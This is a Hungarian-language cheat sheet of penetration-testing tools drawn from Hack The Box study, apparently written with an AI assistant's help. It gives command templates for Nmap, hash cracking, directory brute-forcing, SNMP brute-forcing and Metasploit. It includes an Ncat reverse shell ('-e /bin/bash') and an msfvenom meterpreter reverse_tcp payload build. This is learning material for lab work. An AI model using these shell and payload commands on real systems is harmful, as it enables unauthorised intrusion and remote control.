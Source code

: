 A HTB-s tanulmányaim során már számos eszközt kipróbáltam, és a jövőben még sok újat fogok megismerni. Az alábbiakban látható egy lista az eszközökről, majd mindegyiket részletesen kifejtem, példákkal és hasznos parancssablonokkal kiegészítve.

---

### Eszközlista

**Nmap** – portszkennelés és szolgáltatások feltérképezése, a hálózat feltérképezésének alapvető eszköze.   
**Ncat** – hálózati kommunikáció és reverse shell létrehozása; segít a távoli rendszerekhez való csatlakozásban.  
**John the Ripper** – jelszavak hash-elt formájának feltörése, különösen szólisták és hash fájlok vizsgálatára.  
**Hashcat** – GPU-gyorsított jelszófeltörés, nagyobb hash fájlok és komplex jelszavak bruteforce-hoz.  
**Gobuster** – webes könyvtárak, fájlok bruteforce keresése, webalkalmazások feltérképezése.  
**ZAP** – webes sebezhetőségvizsgálat, fuzzer és proxy eszköz, a biztonsági tesztelés automatizálásához.  
**Burp Suite** – webalkalmazások biztonsági tesztelése, HTTP requestek manipulálása, scanner futtatása.  
**Whois** – domain információk lekérdezése, tulajdonos, regisztrátor és lejárati adatok.  
**Dig** – DNS lekérdezések és hibakeresés, gyorsan ellenőrzi a DNS bejegyzéseket.  
**Dnsenum** – DNS enumeráció és domain felderítés, aldomain-ek és névfeloldások vizsgálata.  
**Curl** – HTTP/HTTPS kérések tesztelése, API hívások ellenőrzése, adatlekérés parancssorból.  
**Smbclient** – SMB/CIFS hálózati megosztások kezelése, fájlok feltöltése és letöltése hálózaton keresztül.  
**Snmpwalk** – SNMP információgyűjtés hálózati eszközökről, konfigurációk és eszközadatok feltérképezéséhez.  
**Onesixtyone** – SNMP brute-force támadások, a community stringek feltörésére.  
**Metasploit Framework (msf)** – exploitok futtatása és pentesting keretrendszer, nagy teljesítményű automatizált támadásokhoz.  
**Msfvenom** – payload generálás és exploit előkészítés, különböző platformokra és protokollokra.

---

### Rövid kifejtés és hasznos parancssablonok

**Nmap**  
Az Nmap a hálózatok feltérképezésének alapja. Segítségével gyorsan megtudhatjuk, mely portok vannak nyitva, milyen szolgáltatások futnak rajtuk, és milyen verziójú szoftverek futnak a célgépen.  
Alap szkennelés:

```bash
nmap -sC -sV -oN scan.txt 10.10.10.10
```

Tippek: használható gyors szkennelésre, verziófelismerésre és akár operációs rendszer detektálásra is.

**Ncat**  
Az Ncat lehetővé teszi a hálózati kommunikációt és a reverse shell létrehozását, ami hasznos penetrációs tesztek során, amikor távoli hozzáférést akarunk tesztelni.  
Reverse shell létrehozása (listener oldalon):

```bash
ncat -lvnp 4444
```

Kapcsolódás távoli gépre:

```bash
ncat target_ip 4444 -e /bin/bash
```

Tippek: a Ncat könnyen kombinálható más eszközökkel a hálózati tesztelés során.

**John the Ripper**  
John a jelszóhash-ek feltörésére specializálódott. Többféle hash formátumot támogat, és szólisták alapján próbálja visszafejteni a jelszavakat.  
Hash feltörés:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Tippek: kombinálható más jelszólistákkal és hash formátumokkal, gyors eredményt ad kis hash fájlok esetén.

**Hashcat**  
Hashcat a GPU-gyorsításnak köszönhetően nagyobb hash állományokat képes hatékonyan brute-force módszerrel feltörni.  
GPU-gyorsított brute-force:

```bash
hashcat -m 0 -a 0 hash.txt rockyou.txt
```

Tippek: ideális komplex hash-ekhez, konfigurálható támadási módokkal és szabályokkal.

**Gobuster**  
Gobuster segítségével webes könyvtárakat és fájlokat kereshetünk bruteforce módszerrel. Hasznos, ha a webalkalmazás struktúráját akarjuk feltérképezni.  
Webes könyvtárak feltérképezése:

```bash
gobuster dir -u http://10.10.10.10 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Tippek: kombinálható különböző szólistákkal és HTTP státuszkód szűrésekkel.

**ZAP**  
A ZAP (OWASP Zed Attack Proxy) lehetővé teszi webes sebezhetőségek feltérképezését, proxyzását, és automatikus fuzzing-et a tesztelendő alkalmazásoknál.  
Tippek: automatikus scanner futtatása és egyéni fuzzer konfigurálása a gyakorlatban nagyon hasznos.

**Burp Suite**  
Burp Suite egy profi webalkalmazás-tesztelő eszköz, ami lehetővé teszi az HTTP kérések manipulálását, a sebezhetőségek keresését, és automatizált szkennelést.  
Tippek: az intercept módban módosíthatjuk a kéréseket, és a repeater funkcióval tesztelhetjük az exploitokat.

**Whois / Dig / Dnsenum**  
Ezek az eszközök a domain-ek és DNS bejegyzések vizsgálatára szolgálnak. Segítségükkel információt szerezhetünk a cél domain-ről és aldomain-jeiről.

```bash
whois example.com
dig example.com A
dnsenum example.com
```

Tippek: hasznos az információszerzés (reconnaissance) fázisban a webalkalmazások feltérképezéséhez.

**Curl**  
A Curl lehetővé teszi HTTP/HTTPS kérések tesztelését parancssorból, ideális API-k és weboldalak gyors ellenőrzésére.  
HTTP request:

```bash
curl -X GET http://10.10.10.10/page
```

Tippek: könnyen integrálható script-ekbe és automatizált tesztekbe.

**Smbclient**  
SMB megosztások eléréséhez és fájlok kezeléséhez használható. Ideális Windows-alapú hálózatok feltérképezésére.

```bash
smbclient //10.10.10.10/share -U username
```

Tippek: fájlok letöltésére, feltöltésére, valamint hozzáférések tesztelésére is használható.

**Snmpwalk / Onesixtyone**  
SNMP segítségével hálózati eszközökről szerezhetünk információkat. Onesixtyone lehetővé teszi a brute-force támadásokat, ha a community string nem ismert.

```bash
snmpwalk -v2c -c public 10.10.10.10
onesixtyone -c community_list.txt 10.10.10.0/24
```

Tippek: hasznos a hálózati infrastruktúra feltérképezésére és gyenge SNMP beállítások felfedezésére.

**Metasploit (msf / msfvenom)**  
A Metasploit egy hatékony keretrendszer exploitok futtatására, különböző platformokon. Msfvenom segítségével payloadokat generálhatunk a célrendszerekhez.  
Exploit futtatása:

```bash
msfconsole
```

Payload generálás:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe > shell.exe
```

Tippek: a Metasploit moduljai lehetővé teszik gyors tesztelést, míg a msfvenom segítségével egyedi payloadokat készíthetünk.

---

Ez a lista természetesen nem teljes, hiszen a HTB tanulmányaim során folyamatosan új eszközöket és technikákat ismerek meg. Ugyanakkor jó alapot ad az eddig megszerzett tudás áttekintéséhez, és segít a további gyakorlásban.

---

Ha szeretnéd, készíthetek belőle **közvetlenül blogra illeszthető HTML verziót**, ami már szép formázással, kódblokkokkal és címekkel jelenik meg a weben.

Szeretnéd, hogy elkészítsem?